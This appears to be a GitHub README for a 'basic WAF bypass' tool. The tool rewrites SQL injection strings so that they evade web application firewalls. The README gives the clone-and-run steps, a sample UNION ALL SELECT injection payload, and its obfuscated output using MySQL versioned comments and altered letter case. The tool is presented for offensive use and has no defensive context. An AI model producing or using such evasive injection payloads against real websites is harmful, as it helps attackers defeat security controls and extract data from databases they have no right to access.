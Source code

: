 # Basic WAF bypass
Simplest way to edit your string so they can bypass the WAF and copy it.

## HOW TO USE
    sudo apt install git
    git clone https://github.com/Tecosse/basic-waf-bypass.git
    cd ./basic-waf-bypass/
    python3 ./main.py
>  
**The query must look like something like this: 'UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10'**


**Enter a string:** UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10

> This will return the following string:

`/*!5000UNioN*/+/*!5000ALL*/+/*!5000seLEcT*/+/*!50001,2,3,4,5,6,7,8,9,10*/+--`
